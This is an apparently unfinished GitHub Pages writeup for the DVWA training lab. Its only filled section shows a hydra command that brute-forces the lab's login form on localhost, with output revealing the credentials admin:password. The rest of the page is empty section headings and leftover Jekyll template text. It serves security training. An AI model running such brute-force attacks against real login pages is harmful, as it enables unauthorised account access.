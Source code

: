 ## DVWA Writeups



- [Brute Force](#brute-force)

- [Command Injection](#command-injection)

- [Cross Site Request Forgery (CSRF)](#cross-site-request-forgery-csrf)

- [File Inclusion](#file-inclusion)

- [File Upload](#file-upload)

- [SQL Injection](#sql-injection)

- [SQL Injection (Blind)](#sql-injection-blind)

- [Weak Session IDs](#weak-session-ids)

- [DOM Based Cross Site Scripting (XSS)](#dom-based-cross-site-scripting-xss)

- [Reflected Cross Site Scripting (XSS)](#reflected-cross-site-scripting-xss)

- [Stored Cross Site Scripting (XSS)](#stored-cross-site-scripting-xss)

- [Content Security Policy (CSP) Bypass](#content-security-policy-csp-bypass)

- [JavaScript Attacks](#javascript-attacks)


---


### Brute Force


The goal is to brute force an HTTP login page.

**Security level is currently: low.**

On submitting the username and password we see that it is using get request 

<img width="477" alt="image" src="https://user-images.githubusercontent.com/79740895/185153021-af373095-102b-4d68-88c7-573499351bc5.png">

So let’s use hydra for brute force:

``` 
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=rt5o26sooph0v8p5nuarofj346"
```

Here we are using cookies because if we are not authenticated when we make the login attempts, we will be redirected to default login page






{::options parse_block_html="true" /}

<details><summary markdown="span">Let's see some code!</summary>
  
```python
print('Hello World!')
```
  
Of course, it has to be Hello World, right?
  
</details>
<br/>

{::options parse_block_html="false" /}







{::options parse_block_html="true" /}

<details><summary>Click to see output </summary>
```ShellSession
  
┌─[aftab@parrot]─[~/Downloads/dvwa]
└──╼ $hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=rt5o26sooph0v8p5nuarofj346"
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-17 23:50:56
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get-form://127.0.0.1:80/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=rt5o26sooph0v8p5nuarofj346
[80][http-get-form] host: 127.0.0.1   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-17 23:51:59

```
</details>
<br/>

{::options parse_block_html="false" /}

Login credentials found by hydra:
`admin:password`

---

### Command Injection

---
### Cross Site Request Forgery (CSRF)

---
### File Inclusion

---
### File Upload

---
### SQL Injection

---
### SQL Injection (Blind)

---
### Weak Session IDs

---
### DOM Based Cross Site Scripting (XSS)

---
### Reflected Cross Site Scripting (XSS)

---
### Stored Cross Site Scripting (XSS)

---
### Content Security Policy (CSP) Bypass

---
### JavaScript Attacks


---

Markdown is a lightweight and easy-to-use syntax for styling your writing. It includes conventions for

```markdown
Syntax highlighted code block

# Header 1
## Header 2
### Header 3

- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [Basic writing and formatting syntax](https://docs.github.com/en/github/writing-on-github/getting-started-with-writing-and-formatting-on-github/basic-writing-and-formatting-syntax).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/Aftab700/DVWA-Writeup/settings/pages). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://docs.github.com/categories/github-pages-basics/) or [contact support](https://support.github.com/contact) and we’ll help you sort it out.
